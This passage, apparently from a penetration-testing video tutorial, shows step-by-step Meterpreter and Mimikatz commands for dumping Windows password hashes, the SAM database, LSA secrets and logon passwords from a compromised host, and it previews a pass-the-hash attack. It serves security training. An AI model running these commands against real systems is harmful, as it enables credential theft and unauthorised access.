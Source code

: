 We can also dump the contents of the SAM database using `lsa_dump_sam`. 

We can also dump the LSA secrets using `lsa_dump_secrets`.

So let's try and dump all the credentials first.

```
meterpreter > creds_all
```

So we can also dump the contents of the SAM database by saying `lsa_dump_sam`.

```
meterpreter > lsa_dump_sam
```

We can also take a look at how to dump the LSA secrets by saying `lsa_dump_secrets`.

```
meterpreter > lsa_dump_secrets
```

And in this case, we only get the SysKey (system key) for the domain.

In the next video, we will be exploring the process of utilizing these hashes to perform a pass-the-hash attack and consequently authenticate to the target system legitimately using the hash.

The NTLM hash does not necessarily need to be cracked in order to get the clear-text password. In the next video, we'll be exploring the process of how to utilize these hashes for legitimate authentication.

That's pretty much it in regards to dumping hashes with Mimikatz. You have the ability of also transferring the Mimikatz binary onto the target system manually.

```
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Open up a command prompt session, I can then execute it by saying `.\mimikatz.exe`.

```
meterpreter > shell
C:\Windows\system32>.\mimikatz.exe
```

Mimikatz loads directly from within the command shell.

We can type in the `privilege::debug` command to ensure that we have the appropriate privileges.

```
mimikatz # privilege::debug
Privilege '20' OK
```

And if it tells us "Privilege '20' OK", then it means that we have the required privileges in order to dump our passwords.

So in terms of the native Mimikatz commands and not Meterpreter commands, we can dump the logon passwords by typing in `sekurlsa::logonpasswords`.

```
mimikatz # sekurlsa::logonpasswords
```
